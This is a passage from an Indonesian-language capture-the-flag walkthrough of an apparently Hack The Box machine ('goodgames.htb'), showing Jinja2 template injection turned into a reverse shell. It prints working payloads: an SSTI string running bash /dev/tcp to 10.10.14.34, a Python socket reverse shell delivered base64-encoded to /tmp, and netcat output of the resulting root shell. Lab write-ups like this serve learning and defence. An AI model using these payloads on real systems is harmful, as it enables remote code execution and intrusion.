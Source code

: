 Oke sekarang kita coba lakukan back connect agar lebih leluasa.

#### Spawning Shell

Oke disini saya mencoba reverse shell menggunakan payload

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.34/2525 0>&1
"').read() }}
```

Namun ternyata gagal. Saya sendiri kurang tau masalahnya dimana, kemungkinan di payload yang saya buat. Akhirnya saya kepikiran untuk memasukkan command tersebut kedalam sebuah file terlebih dahulu sebelum dipanggil.

Referensi:

[**Transfer File dengan Base64**](https://www.linuxsec.org/2020/04/menyalin-file-dengan-fitur-encode-base64.html)

[**Perintah Reverse Shell**](https://www.linuxsec.org/2016/06/reverse-shell-on-linux.html)

```
asuka@linuxsec:~$ cat rev.bash
#!/bin/bash
python3 -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.10.14.34",2525));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
asuka@linuxsec:~$ base64 rev.bash | tr -d '\n'
IyEvYmluL2Jhc2gKcHl0aG9uMyAtYyAnYT1fX2ltcG9ydF9fO2I9YSgic29ja2V0Iik7cD1hKCJzdWJwcm9jZXNzIikuY2FsbDtvPWEoIm9zIikuZHVwMjtzPWIuc29ja2V0KGIuQUZfSU5FVCxiLlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMC4xMC4xNC4zNCIsMjUyNSkpO2Y9cy5maWxlbm87byhmKCksMCk7byhmKCksMSk7byhmKCksMik7cChbIi9iaW4vc2giLCItaSJdKScK⏎
```

Payload yang dikirim:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('bash -c "echo IyEvYmluL2Jhc2gKcHl0aG9uMyAtYyAnYT1fX2ltcG9ydF9fO2I9YSgic29ja2V0Iik7cD1hKCJzdWJwcm9jZXNzIikuY2FsbDtvPWEoIm9zIikuZHVwMjtzPWIuc29ja2V0KGIuQUZfSU5FVCxiLlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCIxMC4xMC4xNC4zNCIsMjUyNSkpO2Y9cy5maWxlbm87byhmKCksMCk7byhmKCksMSk7byhmKCksMik7cChbIi9iaW4vc2giLCItaSJdKScK | base64 -d | tee /tmp/reverse.sh"').read() }}
```

```
name={{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('bash /tmp/reverse.sh').read() }}
```

Dan kita berhasil mendapatkan shell di mesin target.

```
asuka@linuxsec:~$ nc -lvp 2525
listening on [any] 2525 ...
connect to [10.10.14.34] from goodgames.htb [10.129.96.71] 50448
/bin/sh: 0: can't access tty; job control turned off
# uname -a
Linux 3a453ab39d3d 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64 GNU/Linux
# id
uid=0(root) gid=0(root) groups=0(root)
# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
# 
```